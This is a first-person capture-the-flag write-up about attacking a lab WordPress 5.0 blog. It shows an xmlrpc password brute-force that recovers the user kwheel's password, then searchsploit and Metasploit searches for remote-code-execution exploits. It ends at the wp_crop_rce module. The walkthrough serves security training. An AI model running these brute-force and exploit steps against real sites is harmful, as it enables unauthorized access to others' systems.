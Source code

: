 Once again gentlemen...we found nothing useful!

That is where I had the brilliant idea..to focus!

It's a fricking wordpress blog! how do we usually deal with those?

- plugins (#1 reson for wordpress bad reputation)

- Crack admin password and abuse dashboard's php pages

We have two users so far (kwheel and bjoel)

Lets crack them...seems like it's the mom that got a weak one

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                                                                              
Trying kwheel / adelina Time: 00:03:35 <                                                                                                                                                           > (2865 / 14347257)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

```

Geez that was faster than earlier! now I login with those and access the dashboard!

Aaaaand i could not do much...we can't edit the pages! how am I supposed to put a shell in there?

Maybe there is an authenticated vulnerability we can explot...

Seems like the version 5.0 is filled with them...

```
└──╼ $searchsploit wordpress 5.0
-----------------------------------------------------------------------
 Exploit         Title                                       |  Path
---------------------------------------------------------------------------------
WordPress 5.0.0 - Image Remote Code Execution                | php/webapps/49512.py

WordPress Core 5.0 - Remote Code Execution                   | php/webapps/46511.js

WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)  | php/remote/46662.rb
                                                                             
...

--------------------------------------------------------------------
```

Found alot but 3 for RCE (one is a metasploit module)


I tried the first two, but didnt work...so it seems like metasploit is the way

```
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce               2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec  2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability


```